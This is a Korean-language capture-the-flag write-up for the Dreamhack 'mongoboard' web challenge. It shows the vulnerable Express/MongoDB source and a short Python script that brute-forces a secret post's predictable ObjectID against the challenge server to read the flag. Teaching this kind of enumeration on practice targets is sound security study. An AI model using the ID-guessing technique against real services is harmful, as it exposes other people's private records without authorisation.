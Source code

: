 ```yaml
---
title: "드림핵 lv.1 - mongoboard"
date: 2025-03-15 00:00:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking] 
description: 드림핵 mongoboard 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/128](https://dreamhack.io/wargame/challenges/128)
# 문제 설명
node와 mongodb로 구성된 게시판입니다.  
비밀 게시글을 읽어 FLAG를 획득하세요.

- MongoDB < 4.0.0

---
# 문제 풀이
## 웹사이트 분석
### / 메인 페이지
![mongoboard main](https://1drv.ms/i/c/5cb37aa515b56a00/IQSFzxEucohbRZ6bk5DVJzbnAWzumBQRznVK2Kf105jfGPU?width=660)<br />
해당 웹 사이트는 게시판 서비스를 제공한다. <br />
그래서 메인 페이지에 접속하면 유저들이 남긴 글의 목록들이 출력되고 각 글을 누르면 상세 정보를 볼 수 있는 페이지로 넘어가는 방식이다.
### /write 페이지
![mongoboard detail](https://1drv.ms/i/c/5cb37aa515b56a00/IQRltcCjZZMmQLI39zGu3fVoARUq55O5-tvgzQpue89oIIo?width=660)<br />
여기서는 글을 입력할 수 있다. <br />
제목과 이름 그리고 글의 내용을 입력하여 save 버튼을 누르면 제출되는 형식이다.<br/ >
해당 글을 secret으로 설정할 수 있는 옵션도 있는데 secret으로 설정하면 업로드한 본인 조차 접근할 수 없는 글이 된다.
## 코드 분석
### app.js
```js
var express     = require('express');
var app         = express();
var bodyParser  = require('body-parser');
var mongoose    = require('mongoose');
var path        = require('path');

// Connect to MongoDB
var db = mongoose.connection;
db.on('error', console.error);
db.once('open', function(){
    console.log("Connected to mongod server");
});
mongoose.connect('mongodb://localhost/mongoboard');

// model
var Board = require('./models/board');

// app Configure
app.use('/static', express.static(__dirname + '/public'));
app.use(bodyParser.urlencoded({ extended: true }));
app.use(bodyParser.json());

app.all('/*', function(req, res, next) {
  res.header("Access-Control-Allow-Origin", "*");
  res.header("Access-Control-Allow-Methods", "POST, GET, OPTIONS, PUT");
  res.header("Access-Control-Allow-Headers", "Content-Type");
  next();
});

// router
var router = require(__dirname + '/routes')(app, Board);
app.get('/', function(req, res) {
    res.sendFile(path.join(__dirname + '/index.html'));
});

// run
var port = process.env.PORT || 8080;
var server = app.listen(port, function(){
 console.log("Express server has started on port " + port)
});
```
해당 웹서비스는 express.js로 개발 됐고 문제 설명에 언급됐듯이 MongoDB를 사용한다.<br />
중간에 app.all() 함수로 모든 origin들을 허용하고 웬만한 HTTP 요청 방식도 허용하고 있는 것이 보인다. 여기서 취약점이 발생할 것으로 보인다.
### index.js
```js
module.exports = function(app, MongoBoard){
    app.get('/api/board', function(req,res){
        MongoBoard.find(function(err, board){
            if(err) return res.status(500).send({error: 'database failure'});
            res.json(board.map(data => {
                return {
                    _id: data.secret?null:data._id,
                    title: data.title,
                    author: data.author,
                    secret: data.secret,
                    publish_date: data.publish_date
                }
            }));
        })
    });

    app.get('/api/board/:board_id', function(req, res){
        MongoBoard.findOne({_id: req.params.board_id}, function(err, board){
            if(err) return res.status(500).json({error: err});
            if(!board) return res.status(404).json({error: 'board not found'});
            res.json(board);
        })
    });

    app.put('/api/board', function(req, res){
        var board = new MongoBoard();
        board.title = req.body.title;
        board.author = req.body.author;
        board.body = req.body.body;
        board.secret = req.body.secret || false;

        board.save(function(err){
            if(err){
                console.error(err);
                res.json({result: false});
                return;
            }
            res.json({result: true});

        });
    });
}
```
이 파일을 살펴보면 /api/board/게시판id 페이지에 접속해보면 해당 게시판의 정보를 얻어낼 수 있는 것 같다.<br />

하지만 비밀 게시글은 게시판id가 가려져 있기 때문에 다른 방식으로 알아내야 한다.
## 최종 풀이
### 취약점 분석
생각해보니까 어려운 방식을 쓰기 보다는 Brute Forcing으로 해결이 가능해보인다.<br />

계속해서 dummy 글을 만들다보면 MongoDB에서 자동으로 생성되는 게시글id에 어떠한 패턴이 보이기 시작한다.<br />
```
67d4d51d8b9e9b0171c413c3
67d4d51f8b9e9b0171c413c4
FLAG
67d4d5288b9e9b0171c413c6
```
이런식으로 생성이 된다.<br />
여기서 맨 마지막 숫자 2개는 순차적으로 올라가고있다. c3, c4, c5(보이지는 않지만 예상하기로는), 그리고 c6.<br />
다음으로는 7, 8번째 숫자를 보면 1d, 1f, 28 이런식으로변하고 있다. <br />
여기서 특정 패턴을 찾아보려 했지만 내 능력으로는 불가능했다. 그래서 그냥 Brute Force 방식으로 0부터 ff까지 가능한 모든 패턴을 시도해보았다.<br />
### 익스플로잇
```python
import requests

url = "http://host3.dreamhack.games:11209/api/board/"

for i in range(0x10, 0xff):
    id = "67d4d5" + hex(i)[2:4] + "8b9e9b0171c413c5"
    resp = requests.get(url + id)
    print(resp.text)
```
이렇게 고정된 문자들은 그대로 두고 중간에 2글자만 바꿔가면서 계속 요청을 보내봤다.<br />
계속 반복문을 돌다가 id가 일치할때 플래그를 출력한다.<br />

참고로 반복을 0x10부터 시작한 이유는 그냥 0x0 ~ 0x9까지 0x00, 0x01 이런식으로 변환하는 법을 알아보기 귀찮아서 그냥 0x10부터 시작했다.<br />

![mongodb result](https://1drv.ms/i/c/5cb37aa515b56a00/IQQKTL-riRDuT5DZsn3as8MZASoEIe0C8_RYYsVGeFT8yQM?width=660)<br />
# 배운 것
MongoDB의 `_id` 값은 일종의 생성 패턴이 존재한다는 것을 익힐 수 있었다.